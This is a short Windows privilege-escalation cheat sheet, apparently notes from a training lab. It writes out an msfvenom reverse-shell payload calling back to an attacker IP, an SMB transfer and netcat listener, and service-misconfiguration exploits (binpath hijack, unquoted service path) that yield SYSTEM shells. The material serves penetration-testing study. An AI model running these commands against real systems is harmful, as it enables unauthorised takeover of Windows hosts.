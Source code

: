 # Windows Privesc

### Connecting with RDP Port 3389

```text
xfreerdp /u:user /p:password321 /cert:ignore /v:10.10.34.38
```

### Making SMB Server to send Rev-shell

Generate a reverse shell executable \(reverse.exe\) using msfvenom.

```text
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe
```

Transfer the reverse.exe file to the C:\PrivEsc directory on Windows. There are many ways you could do this, however the simplest is to start an SMB server on Kali in the same directory as the file, and then use the standard Windows copy command to transfer the file.

On Kali, in the same directory as reverse.exe:

`sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .`

On Windows \(update the IP address with your Kali IP\):

`copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe`

Test the reverse shell by setting up a netcat listener on Kali:

`sudo nc -nvlp 53`

Then run the reverse.exe executable on Windows and catch the shell:

`C:\PrivEsc\reverse.exe`

![](.gitbook/assets/image%20%2840%29.png)

### Service Exploits - Insecure Service Permissions

Use accesschk.exe to check the "user" account's permissions on the "daclsvc" service:

`C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc`

![](.gitbook/assets/image%20%2841%29.png)

Note that the "user" account has the permission to change the service config \(SERVICE\_CHANGE\_CONFIG\).

Query the service and note that it runs with SYSTEM privileges \(SERVICE\_START\_NAME\):

`sc qc daclsvc`

![](.gitbook/assets/image%20%2842%29.png)

Modify the service config and set the BINARY\_PATH\_NAME \(binpath\) to the reverse.exe executable you created:

`sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""`

Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

`net start daclsvc`

### Service Exploits - Unquoted Service Path

Query the "unquotedsvc" service and note that it runs with SYSTEM privileges \(SERVICE\_START\_NAME\) and that the BINARY\_PATH\_NAME is unquoted and contains spaces.

`sc qc unquotedsvc`

Using accesschk.exe, note that the BUILTIN\Users group is allowed to write to the C:\Program Files\Unquoted Path Service\ directory:

`C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"`

Copy the reverse.exe executable you created to this directory and rename it Common.exe:

`copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"`

Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

`net start unquotedsvc`

\`\`



